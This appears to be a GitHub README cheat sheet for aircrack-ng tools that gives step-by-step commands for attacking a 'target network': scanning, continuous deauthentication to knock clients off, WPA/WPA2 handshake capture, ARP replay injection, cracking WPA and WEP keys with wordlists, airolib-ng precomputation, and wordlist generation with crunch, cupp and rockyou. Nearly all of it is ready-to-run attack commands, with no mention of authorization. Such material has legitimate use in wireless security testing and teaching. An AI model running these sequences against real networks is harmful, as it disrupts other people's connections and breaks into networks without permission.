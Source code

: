 # Usage of some tools

In this example
- `mon0` is the name of your interface in monitor mode
- `00:14:6C:7E:40:80` is the bssid of target network
- `00:09:5B:EB:C5:2B` is the bssid of your network
- `-c X` is the channel of target network
- `out` is the filename to capture the WPA handshake
- `password.txt` is the filename to brute force
- `password.txt` is the file contains name of target network
- `crackwpa` is the file you write target network name in

## Scan network around

```
airodump-ng mon0
```

![image](https://user-images.githubusercontent.com/90561566/166110658-56663408-8ef9-4681-a5d1-4e7ec4bd3562.png)

## [Deauthentication](https://www.aircrack-ng.org/doku.php?id=deauthentication)

You can try it: https://github.com/lucthienphong1120/xDeauth

```
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
or
aireplay-ng -0 0 -a 00:14:6C:7E:40:80 mon0
```

Ctrl+C to stop deauth

## WPA/WPA2 Handshake capture

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
```

## ARP request

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng -0 10 -a 00:14:6C:7E:40:80 mon0
aireplay-ng -3 -b 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
```

## [Cracking WPA/WPA2](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
(wait handshake)
aircrack-ng -w password.txt -b 00:14:6C:7E:40:80 out*.cap 
```

## Crack WEP by ARP request

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng -1 100 -a 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
aireplay-ng -3 0 -b 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
(wait to capture about 70.000 packet)
aircrack-ng -a 1 out*.cap
```

## Speed up crack with database

```
sudo apt install sqlite3
airolib-ng crackwpa --import passwd password.txt
airolib-ng crackwpa --import essid essid.txt
airolib-ng crackwpa --stats
airolib-ng crackwpa --clean all
airolib-ng crackwpa --batch
airolib-ng crackwpa --verify all
aircrack-ng -r crackwpa out*.cap
```

## Brute force tools

Aircrack often uses brute force with some other tools as follows:

- [Cupp](https://github.com/lucthienphong1120/cupp)
- /usr/share/wordlists/rockyou.txt.gz
- [Crunch](https://www.kali.org/tools/crunch)

```
crunch [min] [max] [charset] -t [pattern] -o [path file]
```




